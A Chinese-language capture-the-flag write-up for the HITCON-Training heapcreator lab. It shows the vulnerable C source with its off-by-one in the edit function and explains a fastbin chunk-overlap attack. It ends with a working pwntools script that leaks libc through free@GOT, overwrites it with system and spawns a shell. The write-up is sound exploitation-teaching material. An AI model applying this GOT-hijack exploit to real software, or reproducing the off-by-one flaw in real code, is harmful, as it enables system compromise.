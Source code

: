 题目来自[HITCON-Training](https://github.com/scwuaptx/HITCON-Training)@Angelboy，off-by-one 修改inuse的fastbin chunk size，free该chunk获取一个稍微大的的fastbin chunk。再次malloc实现fastbin chunk overlap，从而可以修改关键指针，hjiack got getshell！

## 题目信息

源码见这里：https://github.com/thinkycx/pwn/blob/master/HITCON-Training/lab13/heapcreator.c

程序中有一个struct heap，提供4个功能，其中edit功能存在off-by-one漏洞！

```c
struct heap {
	size_t size ;
	char *content ;
};
struct heap *heaparray[10];

void menu(){
	puts("--------------------------------");
	puts("          Heap Creator          ");
	puts("--------------------------------");
	puts(" 1. Create a Heap               ");
	puts(" 2. Edit a Heap                 ");
	puts(" 3. Show a Heap                 ");
	puts(" 4. Delete a Heap               ");
	puts(" 5. Exit                        ");
	puts("--------------------------------");
	printf("Your choice :");
}

void create_heap(){
	int i ;
	char buf[8];
	size_t size = 0;
	for(i = 0 ; i < 10 ; i++){
		if(!heaparray[i]){
			heaparray[i] = (struct heap *)malloc(sizeof(struct heap));
			if(!heaparray[i]){
				puts("Allocate Error");
				exit(1);
			}
			printf("Size of Heap : ");
			read(0,buf,8);
			size = atoi(buf);
			heaparray[i]->content = (char *)malloc(size);
			if(!heaparray[i]->content){
				puts("Allocate Error");
				exit(2);
			}
			heaparray[i]->size = size ;
			printf("Content of heap:");
			read_input(heaparray[i]->content,size);
			puts("SuccessFul");
			break ;
		}
	}
}

void edit_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Content of heap : ");
		read_input(heaparray[idx]->content,heaparray[idx]->size+1);
		puts("Done !");
	}else{
		puts("No such heap !");
	}
}
void show_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Size : %ld\nContent : %s\n",heaparray[idx]->size,heaparray[idx]->content);
		puts("Done !");
	}else{
		puts("No such heap !");
	}

}

void delete_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		free(heaparray[idx]->content);
		free(heaparray[idx]);
		heaparray[idx] = NULL ;
		puts("Done !");	
	}else{
		puts("No such heap !");
	}

}
```



## exploit

思路：假设malloc 0x18，chunk会复用下一个chunk的PREV_SIZR，因此可以利用多写的一个字节，来overflow nextchunk 的 SIZE。这时free nextchunk就可以获取larget fastbin chunk，再次malloc导致chunk overlap，可以实现关键指针！本题中利用chunk overlap控制heap->content，使用show泄漏GOT，使用edit hijack free@GOT为system，free一个content为"/bin/sh\x00"的字符串就可以getshell。

具体的关于overlap的细节如下：

如下图所示：申请两次，获得chunk0 chunk1 chunk2 chunk3，其中chun0和chunk2是保存的heap结构体。edit chunk1可写0x19字节，因此多的一个字节可以溢出0x21，修改为0x41。

![image-20181204214015905](./img/image-20181204214015905.png)

溢出后，free chunk2 chunk3，就可以获取一个0x40和0x20大小的fastbin chunk。再次malloc实现chunk overlap。因此申请create 0x40，正好可以把fastbin中的两个chunk申请回来，一个是data的chunk，一个是heap结构体的chunk。

![image-20181204215021950](./img/image-20181204215021950.png)

exploit：

```python
def pwn(io):
    if local&debug: gdb.attach(io,'break *0x400db1') # main atoi
    log.info("[1] create chunk,  overwrite chunk2's size and free chunk2, get 2 fastbin chunks")
    create(0x18, "") # 0 1 chunk0
    create(0x10, "") # 0 1 2 3   chunk1
    create(0x10, "") # 0 1 2 3 4 5 6 chunk2

    payload_overflow = "a"*0x10 + p64(0xdeadbeafdeadbeaf) + "\x41"
    edit(0, payload_overflow)
    delete(1) # get fastbin chunk in  0x40

    log.info("[2] get 0x40 chunk, chunk overlap! overwrite free@got to content ptr")
    payload_got = p64(0x0)*2 + p64(0) + p64(0x21) + p64(0x8)  + p64(elf.got['free'])
    create(0x38, payload_got) # chunk3
    show(1)

    io.recvuntil("Content : ")
    libc.address = u64(io.recv(6)+"\x00\x00") - libc.symbols['free']
    log.success("libc.address: %#x", libc.address)

    log.info("system addr: %#x", libc.symbols['system'])

    log.info("[3] write system addr to free@got")
    edit(1, p64(libc.symbols['system']))

    create(0x18, "/bin/sh\x00")
    delete(3)
```

![image-20181204235044113](./img/image-20181204235044113.png)

